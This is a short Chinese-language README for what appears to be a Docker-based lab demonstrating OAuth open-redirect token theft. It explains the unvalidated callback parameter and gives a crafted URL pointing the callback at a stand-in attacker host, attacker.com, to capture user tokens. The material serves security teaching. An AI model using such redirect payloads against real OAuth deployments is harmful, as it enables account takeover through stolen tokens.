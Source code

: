 # 利用 OAuth 开放重定向窃取用户 token

## 环境启动

```bash
docker-compose up -d
```
应用程序运行在 8090 端口，OAuth 服务运行在 9090 端口


## 漏洞说明
访问 8090 端口，点击 `Login With OAuth` 跳转到 9090 端口进行登录
此时 OAuth 页面存在 URL 为 `http://127.0.0.1:9090/?callback=http://127.0.0.1:8090/admin`
如果登录成功，浏览器将跳转到 `http://127.0.0.1:8090/admin`, 并附带上用户 Token
完整跳转地址为： `http://127.0.0.1:8090/admin?token=xxxxxx`

如果 callback 跳转地址没有白名单限制，攻击者可以构造恶意的 callback 参数，让用户登录成功后跳转到攻击者准备的服务器上，达到窃取 token 的目的
比如攻击者构造 url `http://127.0.0.1:9090/?callback=http://attacker.com`
用户登录成功后将跳转到 `http://attacker.com?token=xxx`
攻击者在 `attacker.com` 上可收到用户的 token
